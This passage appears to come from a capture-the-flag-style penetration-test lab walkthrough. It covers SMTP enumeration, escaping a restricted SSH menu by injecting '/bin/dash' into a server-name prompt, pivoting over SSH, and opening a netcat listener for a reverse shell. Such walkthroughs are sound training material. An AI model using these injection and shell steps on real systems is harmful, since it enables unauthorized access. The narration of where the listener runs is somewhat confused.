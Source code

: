 Once connected to TCP/25 on the __192.168.11.5__ device, run the __ehlo you__ command to perform a handshake with the SMTP server.

```console
ehlo you
250-tl11-192-168-11-5.mail-dev Hello [192.168.11.254], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-AUTH DIGEST-MD5 CRAM-MD5
250-DELIVERBY
250 HELP

```

Awesome, so far so good! Let's go ahead and finish up the exploit.

But hold up! We have no idea what Command Execution we should be using, nonetheless it's a Remote Command Execution, and we don't know what system to target! 

After some time spent researching, and going through the machines in the lab I finally figured out that I can utilize a Reverse Shell via this exploit, but one that only worked for the __192.168.10.1__ device, the same place where the FTP Server was connecting to!

This made me realize that the __192.168.10.1__ device seemed to be an Administrative Device and one that was possibly running the most critical software for the Company - Firewalls, AV, SMTP, FTP, etc.

Either way, after knowing this I attempted to get a Reverse Shell on the __192.168.10.1__ device.

First I needed to set up a listener on the __192.168.10.1__ device, like so:

```console
root@kali:~/pentestit# ssh -i remote.key remote@192.168.11.1
########################################
Enter ServerName or Q for exit:
########################################
Srv1
Srv2
########################################
Enter VM name for connect: Srv;/bin/dash 1>&2
cat: /opt/gh/Srv: No such file or directory
$ bash
##########################
PasswordAuthentication no
##########################
remote@tl11-192-168-11-1:~$ ssh -i /home/remote/.ssh/id_rsa -o StrictHostKeyChecking=no aengineer@192.168.10.1
You have new mail.
Last login: Wed Jul 12 16:52:02 2017 from 192.168.11.1
##########################
PasswordAuthentication no
##########################
aengineer@tl11-192-168-10-1:~$ nc -nvlp 1234
listening on [any] 1234 ...
```
